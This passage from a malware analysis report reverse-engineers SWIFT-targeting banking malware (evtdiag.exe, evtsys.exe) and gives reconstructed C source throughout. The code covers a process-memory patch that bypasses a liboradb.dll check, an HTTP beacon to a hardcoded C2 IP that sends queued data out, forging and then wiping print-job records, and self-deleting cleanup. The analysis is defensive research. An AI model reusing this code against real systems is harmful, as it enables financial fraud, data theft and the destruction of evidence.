00409271 66 8b 44 24 02 MOV AX, word ptr \[ESP+2\] ; wMonth

00409276 66 3d 02 00 CMP AX, 2 ; February

...

0040928a 66 8b 44 24 06 MOV AX, word ptr \[ESP+6\] ; wDay

0040928f 66 3d 06 00 CMP AX, 6 ; 6th

...

004092a3 66 83 7c 24 08 06 CMP word ptr \[ESP+8\], 6 ; wHour ≥ 6

004092a9 0f 93 c0 SETNC AL

004092ac 83 c4 10 ADD ESP, 0x10

004092af c3 RET

**EVIDENCE :** The four constants (2016, 2, 6, 6) are visible directly in the disassembly as immediate operands to CMP instructions. This is not an interpretation, it is byte-level fact. Any reviewer with the same binary can verify in 60 seconds. This is the strongest defensible single finding in the entire malware family.

Because **FUN_00409230** is called on every iteration of the **Sleep(1000)** loop in ServiceMain, the malware polls at 1-second granularity. From 06:00:00 onwards, the very next iteration returns 1, and the cleanup chain begins immediately.

Combined with the compile stamps (2016-02-04 and 2016-02-05) and the SWIFT transaction dates (Feb 4–5), the operational window was engineered to be exactly the two days needed to send the fraudulent transfers, plus one final morning for money-laundering to complete.

## 5.3 The liboradb.dll patch : FUN_00402580

The most operationally significant single act of the malware. It patches 2 bytes in memory inside every process that has liboradb.dll loaded, disabling a specific check inside SWIFT Alliance Access's Oracle database client library.

### The 2-byte patch, explained

At RVA 0x6A8B6 inside liboradb.dll, the original bytes are:

75 04 JNZ short +4 ; jump if not zero

The malware overwrites them with:

90 90 NOP; NOP ; do nothing

The effect: the conditional-jump instruction that normally skips a failure-handling branch when a permission check passes is replaced with two **NOPs**, so the fall-through path (the success path) is taken unconditionally. Whatever check preceded this JNZ is now effectively bypassed.

### BEFORE : Ghidra decompilation of the patcher

undefined4 FUN_00402580(HANDLE hProc, DWORD moduleBase, int direction)

{

DWORD oldProtect;

BYTE currentBytes\[2\];

BYTE targetBytes\[2\];

SIZE_T bytesRead, bytesWritten;

if (direction == 1) {

targetBytes\[0\] = 0x90; targetBytes\[1\] = 0x90;

expectedBytes\[0\] = 0x75; expectedBytes\[1\] = 0x04;

} else {

targetBytes\[0\] = 0x75; targetBytes\[1\] = 0x04;

expectedBytes\[0\] = 0x90; expectedBytes\[1\] = 0x90;

}

ReadProcessMemory(hProc, moduleBase + 0x6a8b6, currentBytes, 2, &bytesRead);

if (memcmp(currentBytes, expectedBytes, 2) != 0)

return 0xffffffff; // wrong bytes — refuse to patch

VirtualProtectEx(hProc, moduleBase + 0x6a8b6, 2, PAGE_EXECUTE_READWRITE, &oldProtect);

WriteProcessMemory(hProc, moduleBase + 0x6a8b6, targetBytes, 2, &bytesWritten);

VirtualProtectEx(hProc, moduleBase + 0x6a8b6, 2, oldProtect, &oldProtect);

return 0;

}

### AFTER : semantic reconstruction

// Patch or unpatch liboradb.dll at RVA 0x6A8B6.

// direction == 1 → install patch (JNZ short+4 → NOP NOP)

// direction == 0 → uninstall patch (NOP NOP → JNZ short+4)

// State-verifies before writing: refuses if current bytes are not the expected

// "before" state. This makes the operation idempotent and non-destructive.

DWORD PatchLiboradb(HANDLE targetProc, DWORD moduleBase, int direction)

{

BYTE target\[2\], expected\[2\];

if (direction == INSTALL) {

target\[0\] = 0x90; target\[1\] = 0x90; // NOP NOP

expected\[0\] = 0x75; expected\[1\] = 0x04; // JNZ short +4

} else {

target\[0\] = 0x75; target\[1\] = 0x04; // restore JNZ

expected\[0\] = 0x90; expected\[1\] = 0x90; // must currently be NOP NOP

}

BYTE current\[2\];

SIZE_T n;

ReadProcessMemory(targetProc, moduleBase + LIBORADB_PATCH_RVA, current, 2, &n);

if (memcmp(current, expected, 2) != 0)

return -1; // wrong state, refuse

DWORD oldProt;

VirtualProtectEx(targetProc, moduleBase + LIBORADB_PATCH_RVA, 2,

PAGE_EXECUTE_READWRITE, &oldProt);

WriteProcessMemory(targetProc, moduleBase + LIBORADB_PATCH_RVA, target, 2, &n);

VirtualProtectEx(targetProc, moduleBase + LIBORADB_PATCH_RVA, 2,

oldProt, &oldProt);

return 0;

}

**FINDING :** The **bidirectional patch design** is a novel observation. The function supports both install (direction=1) and uninstall (direction=0), and refuses to write unless the current bytes match the expected "before" state. This means the operators could cleanly remove the patch on demand via the **-u** CLI. Prior public reports describe the patch only as "**install-only**." The uninstall path is documented here because both directions are exposed as CLI flags (see section 4.2).

### 

### 

### 

### 

### 

### 

### How the patcher finds its targets : FUN_004023b0

The patch function above only operates on a single process. To reach every process that has **liboradb.dll** loaded, **evtdiag** enumerates all running processes and calls the patcher on each. This is done in **FUN_004023b0**

(the "PI"/"PU" printer, per the log messages "PI (%d, %d)" and "PU (%d, %d)"):

1\. Adjust own token to grant **SeDebugPrivilege** (needed for OpenProcess of foreign processes)

2\. **CreateToolhelp32Snapshot**(TH32CS_SNAPPROCESS) to enumerate

3\. For each **Process32Next** result:

a\. **OpenProcess**(PROCESS_ALL_ACCESS = 0x1F0FFF) // heavier than needed

b\. **Module32Nex**t through the target's modules

c\. If **StrStrIA**(moduleName, "liboradb.dll") // case-insensitive match is non-null:  
Call **PatchLiboradb**(hProc, moduleBase, direction)

- Increment "found" counter

- Increment "patched" counter on success

4\. Print "PI (found, patched)" or "PU (found, unpatched)"

**WATCH OUT :** The use of **PROCESS_ALL_ACCESS (0x1F0FFF)** is heavier than needed for a memory patch : **PROCESS_VM_READ \| PROCESS_VM_WRITE \| PROCESS_VM_OPERATION** would suffice. This is a detection surface: legitimate patching tools normally request the minimum required rights.

## 5.4 The C2 beacon : FUN_00408f40 and LAB_00409130

The C2 subsystem has two parts. **FUN_00408f40** is the transmitter, it sends a single GET request. **LAB_00409130** is the background thread, it decides when to send and what payload.

### 5.4.1 The transmitter : FUN_00408f40

#### BEFORE : Ghidra

DWORD FUN_00408f40(undefined4 param_1)

{

char local_400;

char local_500;

\_snprintf(&local_400, 0x3ff, s\_/%s?%s_0040fa84, &DAT_0040fa8c, param_1);

hInet = InternetOpenA(0, 1, 0, 0, 0);

if (hInet == 0) return GetLastError();

hConn = InternetConnectA(hInet, &DAT_00419394, 0x50, 0, 0, 3, 0, 0);

if (hConn == 0) { InternetCloseHandle(hInet); return GetLastError(); }

hReq = HttpOpenRequestA(hConn, &DAT_0040fa74, &local_400, s_HTTP/1.1_0040fa78,

0, 0, 0x4000300, 0);

if (hReq == 0) { ...; return GetLastError(); }

if (!HttpSendRequestA(hReq, 0, 0xffffffff, 0, 0)) { ...; return GetLastError(); }

// Only read response if HTTP 200; up to 255 bytes discarded

HttpQueryInfoA(hReq, 0x20000013, &statusCode, ...);

if (statusCode == 200) {

while (InternetQueryDataAvailable(...) && bytesAvail != 0) {

InternetReadFile(hReq, buf, cap, &nRead);

if (nRead == 0 \|\| total \>= 0xFF) break;

}

}

InternetCloseHandle(hReq); InternetCloseHandle(hConn); InternetCloseHandle(hInet);

return 0;

}

#### AFTER : reconstructed

// Send a single HTTP GET beacon to the hardcoded C2 server.

// payload → substituted into "/al?\<payload\>" URI

// Reads up to 255 bytes of response, discards it (server ACK only).

DWORD SendC2Beacon(const char \*payload)

{

char uri\[1024\];

\_snprintf(uri, 1023, "/%s?%s", "al", payload); // e.g. "/al?---O"

HINTERNET hInet = InternetOpenA(NULL, INTERNET_OPEN_TYPE_DIRECT,

NULL, NULL, 0);

if (!hInet) return GetLastError();

HINTERNET hConn = InternetConnectA(hInet, C2_IP_ADDRESS, // 196.202.103.174

80, NULL, NULL,

INTERNET_SERVICE_HTTP, 0, 0);

if (!hConn) { InternetCloseHandle(hInet); return GetLastError(); }

HINTERNET hReq = HttpOpenRequestA(hConn, "GET", uri, "HTTP/1.1",

NULL, NULL,

INTERNET_FLAG_RELOAD \|

INTERNET_FLAG_NO_CACHE_WRITE \|

INTERNET_FLAG_KEEP_CONNECTION,

0);

if (!hReq) { /\* teardown \*/ return GetLastError(); }

if (!HttpSendRequestA(hReq, NULL, -1, NULL, 0)) { /\* teardown \*/ return GetLastError(); }

DWORD status = 0, cbStatus = 4;

HttpQueryInfoA(hReq, HTTP_QUERY_STATUS_CODE \| HTTP_QUERY_FLAG_NUMBER,

&status, &cbStatus, NULL);

if (status == 200) {

char respBuf\[256\]; DWORD total = 0;

while (InternetQueryDataAvailable(hReq, &avail, 0, 0) && avail) {

InternetReadFile(hReq, respBuf + total,

min(avail, 255 - total), &nRead);

if (!nRead \|\| (total += nRead) \>= 255) break;

}

}

InternetCloseHandle(hReq);

InternetCloseHandle(hConn);

InternetCloseHandle(hInet);

return 0; }

### 5.4.2 The beacon thread : LAB_00409130

Spawned by **CreateThread** from **ServiceMain** if the C2 IP was loaded from **gpca.dat**. Runs in the background for the entire lifetime of the service.



#### AFTER : reconstructed

DWORD WINAPI C2BeaconThreadProc(LPVOID unused)

{

Sleep(30000); // initial 30s delay

time_t lastBeacon = time(NULL);

if (shutdownRequested) return 0;

while (!shutdownRequested) {

// Try to grab a queued exfil payload (up to 511 bytes)

char payload\[512\] = {0};

GetQueuedC2Payload(payload, 0x1FF); // FUN_00403020

if (payload\[0\] != '\0') {

// Send the payload immediately

SendC2Beacon(payload);

lastBeacon = time(NULL);

} else {

Sleep(1000);

}

// Every hour minimum, send a login-state heartbeat

if (time(NULL) \>= lastBeacon + 3600) {

const char \*marker;

if (IsSwiftLoggedIn(loginState)) // FUN_00408e00

marker = "---O"; // Open (logged in)

else if (WasSwiftLoggedIn(loginState)) // FUN_00408ea0

marker = "---C"; // Close (logged out)

else

marker = "---N"; // No change

SendC2Beacon(marker);

lastBeacon = time(NULL);

}

}

return 0;

}

## 

**FINDING :**

1\. A **payload queue** (**FUN_00403020**, max 511 bytes) is polled every second. If a payload is queued by other functions, it is sent immediately without waiting for the hour to elapse. So this is exfil, not just heartbeat.

2\. Two independent login-state probes (**FUN_00408e00** for current-login, **FUN_00408ea0** for prior-login) drive the three-marker output (**---O / ---C / ---N**), letting the operator detect not just **"is logged in**" but also "**just logged out.**"

3\. **FUN_00405A30** is a balance calculator that operates on the C2 message queue (DAT_00411054 : the same queue the beacon thread reads). It walks every queued message, finds the \# character that precedes currency amounts, parses the amount via **FUN_00402270** (64-bit fixed-point), checks for the " D" (debit) or " C" (credit) indicator strings using StrStrIA, and accumulates a running net balance. The debit/credit indicators with four leading spaces match the exact Alliance Access statement line format. The accumulated result is stored in **DAT_004195A8/AC** (credit) and **DAT_004195B8/BC** (debit), these are the globals that gate mcp\fofp and mcp\foff processing. The balance accumulator is the bridge between the C2 observation channel and the file cleanup channel.

4- **FUN_00402270** is a custom SWIFT amount parser, not a wrapper for a standard library function. It performs four operations in sequence:

\(1\) trims whitespace and carriage returns via StrTrimA;

\(2\) replaces European decimal commas with periods, handling both 1.234,56 and 1,234.56 formats;

\(3\) reads the integer portion via sscanf with the %I64d format specifier (64-bit);

\(4\) counts decimal places and multiplies by powers of 10 to normalize to fixed-point 2-decimal representation, so 1,234.56 becomes 123456 as a 64-bit integer.

The 64-bit storage means the malware handles amounts up to ~92 trillion USD without overflow. The comma→period normalization confirms the malware was built for European-format SWIFT messages, not only US-format. Neither detail appears in any prior public report.

## 5.5 The self-cleanup chain

When the main loop exits (either because the kill switch tripped or the service received a STOP command via SCM), a **five-stage** cleanup sequence runs. By the time it completes, no trace of the malware remains on the host: **no binaries, no config, no log, no service registration**.



### The evtsys spawner : FUN_00409300

For me the most clever piece of the chain is **stage 4**: how **evtdiag** arranges for its own executable file to be deleted. A running .**exe** holds a lock on itself, so **evtdiag** cannot delete its own file. The solution: spawn **evtsys.exe** (a separate binary) with **evtdiag's** own file path as an argument, then immediately **ExitProcess,** releasing the lock, before **evtsys** tries to delete.

#### BEFORE : Ghidra

undefined FUN_00409300(HMODULE param_1)

{

char selfPath\[0x104\];

char selfDir\[0x104\];

char cmdLine\[0x400\];

STARTUPINFOA si;

PROCESS_INFORMATION pi;

GetModuleFileNameA(param_1, selfPath, 0x103);

strcpy(selfDir, selfPath);

char \*lastSlash = strrchr(selfDir, '\\');

if (lastSlash) \*(lastSlash+1) = '\0'; // trim to directory

strcat(selfDir, s_evtsys.exe_0040fab4); // append "evtsys.exe"

\_snprintf(cmdLine, 0x3ff, s\_"%s"\_"%s"\_0040faa8, selfDir, selfPath);

// → cmdLine = "\\\<dir\>\\evtsys.exe\\ \\\<full evtdiag path\>\\"

memset(&si, 0, sizeof(si));

si.cb = sizeof(si);

si.dwFlags = STARTF_USESHOWWINDOW;

si.wShowWindow = SW_HIDE;

CreateProcessA(NULL, cmdLine, NULL, NULL, FALSE, 0,

NULL, NULL, &si, &pi);

ExitProcess(0);

}

#### AFTER — reconstructed

// Final stage of self-cleanup: launch evtsys.exe with our own path as

// its target, then IMMEDIATELY exit so it can delete us.

void SpawnEvtsysAndExit(HMODULE hSelf)

{

char selfPath\[MAX_PATH\];

char evtsysPath\[MAX_PATH\];

char cmdLine\[1024\];

// Get our own full path

GetModuleFileNameA(hSelf, selfPath, MAX_PATH - 1);

// Build sibling path: \<same_dir\>\evtsys.exe

strcpy(evtsysPath, selfPath);

char \*slash = strrchr(evtsysPath, '\\');

if (slash) \*(slash + 1) = '\0';

strcat(evtsysPath, "evtsys.exe");

// Build "\<evtsys.exe path\>" "\<our own path\>"

\_snprintf(cmdLine, 1023, "\\%s\\ \\%s\\", evtsysPath, selfPath);

STARTUPINFOA si = { sizeof(si) };

si.dwFlags = STARTF_USESHOWWINDOW;

si.wShowWindow = SW_HIDE; // no console window

PROCESS_INFORMATION pi = {0};

CreateProcessA(NULL, cmdLine, NULL, NULL, FALSE, 0,

NULL, NULL, &si, &pi);

ExitProcess(0); // release our own file handle

// evtsys.exe (child) now retries deletion up to 50× until we're gone

}

**FINDING :** The **handoff trick**, spawn-then-exit is the key. **evtsys** is designed with a retry loop (up to 50 attempts, 1 second apart) precisely because it expects to find **evtdiag's** file still locked when it first tries. This tight coupling proves the two binaries were designed together, not repurposed independently.

## 5.6 The PRT doctor-then-destroy pipeline

This is **the print-manipulation** subsystem. It runs continuously in the background, scanning three directories every second, doctoring any print-job **(.prt)** file it finds, then destroying the original. The effect is that fraudulent transaction confirmations get replaced with benign fakes before the operators' printers can print the real thing.

**FINDING :** Two format strings in the PRT pipeline reveal the exact output format evtdiag produces. First: "0016%04d.prt" at .data:0x40F6EC (called from FUN_00404800 and FUN_00406D80) is the exact Alliance Access PRT filename convention, prefix 0016 plus a 4-digit zero-padded sequence number. This is the first documentation of this naming convention at the string level in any public analysis. Second: " Amount :%27s\n" in FUN_00406050 right-pads the amount field to 27 characters, the exact column width of Alliance Access printed output. The doctored statement is formatted to the pixel: a banker comparing the printout to the screen would see identical column alignment.



### 5.6.1 The directory dispatcher : FUN_004043e0

Trivially small, three back-to-back calls to **FUN_004042a0** with different directory paths:

void CleanupPrtDirectories(void)

{

ScanDirAndDoctor(prtDir1); // DAT_00410214 - populated at startup

ScanDirAndDoctor(prtDir2); // DAT_00410318 - populated at startup

ScanDirAndDoctor(prtDir3); // DAT_0041041c - populated at startup

}

The three global paths are **MAX_PATH-sized buffers** (**0x104** bytes each, exactly **0x104** apart in memory), populated at startup by **FUN_004010d0** from the base **Allians\\** template. Based on the file extension and message-file conventions, these are the three PRT spool subdirectories.

### 5.6.2 The per-directory scanner : FUN_004042a0

// Scan a directory for 4-character filenames (SWIFT print-job convention:

// 0001.prt, 0002.prt, ...) and process each.

DWORD ScanDirAndDoctor(char \*dirPath)

{

char pattern\[MAX_PATH\], fullPath\[MAX_PATH\];

MakePath(pattern, NULL, dirPath, "\*", "\*"); // "\<dirPath\>\\\*"

WIN32_FIND_DATA fd;

HANDLE hFind = FindFirstFileA(pattern, &fd);

if (hFind == INVALID_HANDLE_VALUE) return 0;

do {

if (strcmp(fd.cFileName, ".") == 0) continue;

if (strcmp(fd.cFileName, "..") == 0) continue;

if (fd.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY) continue;

if (strlen(fd.cFileName) != 4) continue; // ← only 4-char names

MakePath(fullPath, NULL, dirPath, fd.cFileName, NULL);

// Parse filename as decimal integer (e.g. "0042" → 42)

int seqNum = strtol(fd.cFileName, NULL, 10);

// 1. Doctor the content

DoctorPrtFile(fullPath, seqNum); // FUN_004041c0

// 2. Securely destroy the original

SecureDelete(fullPath); // FUN_00401640

} while (FindNextFileA(hFind, &fd));

FindClose(hFind);

return 0;

}

### 

### 

### 5.6.3 The doctor-then-destroy orchestrator : FUN_004041c0

Called from three contexts: the directory scanner above, plus **FUN_00404800** and **FUN_00406d80** (the Federal Reserve message handler). Manages a global sequence counter so the doctored files preserve print-job numbering continuity.

// Read a PRT file, generate a doctored replacement, write it back, and

// maintain a rolling sequence counter for job-number continuity.

DWORD DoctorPrtFile(const char \*prtPath, int seqNum)

{

// Initialize global counter on first call

if (prtSeqCounter == 0) {

prtSeqCounter = seqNum;

if (seqNum == 0) {

char dir\[MAX_PATH\];

strcpy(dir, prtPath);

\*strrchr(dir, '\\') = '\0';

prtSeqCounter = FindMaxPrtNumber(dir); // FUN_004032f0

}

}

// 1. Parse the PRT content (extracts fields between \_DO_NOT_USE_MM\_ sentinels)

if (ParsePrtContent(prtPath, prtSeqCounter) != 0) // FUN_00403cd0

return -1;

// 2. Write doctored replacement (uses nroff-macro templates)

if (WriteDoctoredPrt(prtPath, 0) == 0) // FUN_004033e0

prtSeqCounter++;

return 0;

}

**FINDING :** This is a **doctor-then-destroy** pipeline, not simple cleanup. The original PRT is not just deleted, its content is first read, parsed, and rewritten into a benign version. The victim's printer then prints the benign version. The original (with the real fraudulent transaction) is securely destroyed. Prior public reporting describes only the destruction step, not the substitution.

**WATCH OUT :** Continuous, not one-shot. **CleanupPrtDirectories** is called on every iteration of the main service loop's Sleep(1000), so PRT files are polled and destroyed at 1-second granularity. Fraudulent print jobs never sit on disk long enough to be observed by an operator.

## 

## 5.7 The message-block extractor : FUN_00401cd0

This is the parser that pulls individual message blocks out of a text buffer. It uses a specific **nroff-comment** string as a delimiter: **.\\ \_DO_NOT_USE_MM\_ (at .data:0x40F12C).**

Because **nroff** (the SWIFT print formatter) treats lines starting with **.\\** as comments and strips them from the printed output, the sentinel is invisible when the file is actually printed, but parseable when the raw file is read from disk. That is how the malware distinguishes **"message N ends here / message N+1 begins here"** boundaries in **nroff-formatted** files (genius if you ask me).

### AFTER : reconstructed

// Extract one message-block delimited by nroff-comment sentinels

// (".\\ \_DO_NOT_USE_MM\_"). Returns pointer to the next sentinel or the

// end-of-input, and writes the extracted block into 'out'.

LPSTR ExtractSentinelBlock(LPCSTR input, basic_string\<\> \*out)

{

if (!input \|\| !\*input) return NULL;

// Preload out-buffer with a fallback default (a comma char, from DAT_0041104c)

out-\>assign(DAT_0041104c);

LPSTR first = StrStrIA(input, SENTINEL); // ".\\ \_DO_NOT_USE_MM\_"

if (first != NULL) {

LPSTR second = StrStrIA(first + 1, SENTINEL);

if (second != NULL) {

// Two sentinels found — extract the block BETWEEN them

out-\>assign(first, second - first);

return (out-\>length() != 0) ? second : NULL;

}

// Only one sentinel — extract from that point to end-of-input

out-\>assign(first);

return first + out-\>length();

}

// No sentinel found — just copy the whole input

out-\>assign(input);

return (LPSTR)out-\>length();

}

### Two callers, two subsystems

The function has 5 XREFs from 2 distinct caller functions plus wrapper (\`**FUN_00401e40**\`):

| **Caller**   | **Subsystem**      | **What it processes**                                  |
|--------------|--------------------|--------------------------------------------------------|
| FUN_00403cd0 | Print manipulation | Parses PRT files (called by **FUN_004041c0** above)    |
| FUN_004086e0 | SWIFT file monitor | Scans **\*.prc** and **\*.fal** files in Alliance dirs |
| FUN_00401e40 | Utility wrapper    | Passes through to **FUN_00401cd0** with defaults       |

**FINDING :** This proves the **\_DO_NOT_USE_MM\_** sentinel is a **shared block-boundary convention** across both the print output (nroff-generated .prt) and the SWIFT message files (.prc, .fal). Both are nroff-formatted, both are parsed with the same primitive. The sentinel appears in the binary only as a search target (**StrStrIA** operand),  
so the delimiter is produced by the legitimate nroff.exe / rnoff.exe, and **evtdiag's** job is to consume the output.

## 

## 

## 

## 

## 5.8 The secure-delete workhorse : FUN_00401640

Called **19 times** from across **evtdiag**. The single most-used non-trivial primitive in the binary. Every place that needs to destroy a file goes through this function.

### AFTER : reconstructed

// Zero-fill a file's contents in 4KB chunks over its full length, then

// hand off to a rename-random + delete routine.

// Called from 19 sites — .prt cleanup, gpca.dat/recas.dat shutdown, etc.

DWORD SecureDelete(const char \*path)

{

// Allocate 4096-byte zero-filled stack buffer

BYTE zeroBuf\[4096\] = {0};

HANDLE hFile = CreateFileA(path,

GENERIC_WRITE,

0, // no share

NULL,

OPEN_EXISTING,

FILE_ATTRIBUTE_NORMAL,

NULL);

if (hFile == INVALID_HANDLE_VALUE) return GetLastError();

// 1-byte probe write at end (ensures file is writable, forces flush)

SetFilePointer(hFile, -1, NULL, FILE_END);

BYTE probe = 0;

DWORD nWritten;

WriteFile(hFile, &probe, 1, &nWritten, NULL);

FlushFileBuffers(hFile);

LARGE_INTEGER fileSize;

GetFileSizeEx(hFile, &fileSize);

SetFilePointer(hFile, 0, NULL, FILE_BEGIN);

// Overwrite full file with zeros in 4KB chunks

LARGE_INTEGER pos = {0};

while (pos.QuadPart \< fileSize.QuadPart) {

DWORD chunk = (DWORD) min(0x1000LL, fileSize.QuadPart - pos.QuadPart);

if (!WriteFile(hFile, zeroBuf, chunk, &nWritten, NULL) \|\| nWritten == 0)

break;

pos.QuadPart += nWritten;

}

FlushFileBuffers(hFile);

CloseHandle(hFile);

// Hand off to random-rename + delete

return RenameRandomAndDelete(path, false); // FUN_00401550

}

**FINDING :** This function is **structurally identical** to **FUN_004010f0** in **evtsys.exe** (same stack size **0x1014**, same stack-probe pattern, same **4KB** overwrite loop, same **probe-write**, same **hand-off to rename+delete**). Two independent copies of the same algorithm in **two binaries = shared source codebase**. See section 9 for the attribution write-up.

### Where the 19 calls come from

| **Address**                          | **Context**                                    |
|--------------------------------------|------------------------------------------------|
| FUN_00401780:0x0040182e              | Startup housekeeping                           |
| FUN_00401870:0x004019b0              | Finalize cleanup helper                        |
| FUN_004033e0:0x004037e3              | PRT rewriter cleanup                           |
| FUN_00403eb0:0x00404056              | Print helper                                   |
| FUN_00404070:0x0040417d              | Print job scanner                              |
| FUN_004042a0:0x004043a8              | PRT dir scanner (section 5.6)                  |
| FUN_004053c0:0x004054cc              | SWIFT parser cleanup                           |
| FUN_00406d80:0x0040765e              | Federal Reserve handler (×5 XREFs, heavy user) |
| FUN_004086e0:0x004089ce              | \*.prc/\*.fal scanner                          |
| FUN_00408b70:0x00408dc5 / 0x00408dcf | SQL temp-file cleanup                          |
| FUN_00409920:0x00409abc              | nroff swap cleanup                             |
| FUN_00409af0:0x00409c85 / 0x00409c8f | Shutdown: gpca.dat + recas.dat                 |

# 6. evtsys.exe : The Killer

A minimal, purpose-built utility. **6** flagged imports, **19** functions total, **16** KB. Its sole job is to destroy a file it is pointed at, and then destroy itself.

## 6.1 Binary characteristics

| **Property**                                                   | **Value**                                                                 |
|----------------------------------------------------------------|---------------------------------------------------------------------------|
| File size                                                      | 16,384 bytes (16 KB)                                                      |
| Compiler                                                       | Visual Studio 6.0                                                         |
| Compile timestamp                                              | Thu Feb 04 2016 13:45:39 UTC                                              |
| Function count                                                 | 19                                                                        |
| Flagged imports                                                | WriteFile, DeleteFileA, RemoveDirectoryA, CreateProcessA, MoveFileA, rand |
| No network, no crypto, no service APIs, no memory manipulation | \_                                                                        |

**Called from CLI: evtsys.exe \<filepath\> ; the file at argv\[1\] is the destruction target.**



## 6.2 The main routine : FUN_004013e0

Handles the **argc/argv** check and runs the retry loop. If **argc != 2**, it skips straight to self-delete without doing anything else.

### AFTER : reconstructed

DWORD main(int argc, char \*\*argv)

{

if (argc == 2) {

// Retry up to 50 times, 1 second apart, until the file is gone

for (int i = 1; i \<= 50; i++) {

SecureOverwriteAndDelete(argv\[1\]); // FUN_004010f0

if (GetFileAttributesA(argv\[1\]) == INVALID_FILE_ATTRIBUTES)

break; // file is gone

Sleep(1000);

}

}

SelfDeleteViaEvchkBat(); // FUN_00401230

return 0;

}

**FINDING :** The **50-retry pattern** with 1-second sleeps handles the race between **evtdiag's** **ExitProcess** (which releases its own file lock) and **evtsys's** **DeleteFile** attempt. This is why **evtsys** must be robust to "**sharing violation**" errors, the target file is expected to be locked at the first attempt.

## 6.3 The zero-fill routine : FUN_004010f0

The routine that actually overwrites the file contents. Structurally identical to **evtdiag's** **FUN_00401640.**

### BEFORE : Ghidra

void FUN_004010f0(char \*path)

{

BYTE zeroBuf\[4096\];

memset(zeroBuf, 0, 4096);

hFile = CreateFileA(path, 0x40000000, 0, NULL, 3, 0x80, NULL);

if (hFile == INVALID_HANDLE_VALUE) { GetLastError(); return; }

SetFilePointer(hFile, -1, NULL, 2);

WriteFile(hFile, zeroBuf, 1, ...); // 1-byte probe

FlushFileBuffers(hFile);

GetFileSizeEx(hFile, &size);

SetFilePointer(hFile, 0, NULL, 0);

while (pos \< size) {

DWORD chunk = (size - pos \> 4096) ? 4096 : size - pos;

WriteFile(hFile, zeroBuf, chunk, &nWritten, NULL);

if (nWritten == 0) break;

pos += nWritten;

}

FlushFileBuffers(hFile); CloseHandle(hFile);

FUN_00401000(path, 0); // rename + delete

}

### AFTER : reconstructed

void SecureOverwriteAndDelete(const char \*path)

{

BYTE zeroBuf\[4096\] = {0};

HANDLE hFile = CreateFileA(path,

GENERIC_WRITE,

0, NULL,

OPEN_EXISTING,

FILE_ATTRIBUTE_NORMAL,

NULL);

if (hFile == INVALID_HANDLE_VALUE) return;

// Probe write at end + flush (ensures cache written to disk)

SetFilePointer(hFile, -1, NULL, FILE_END);

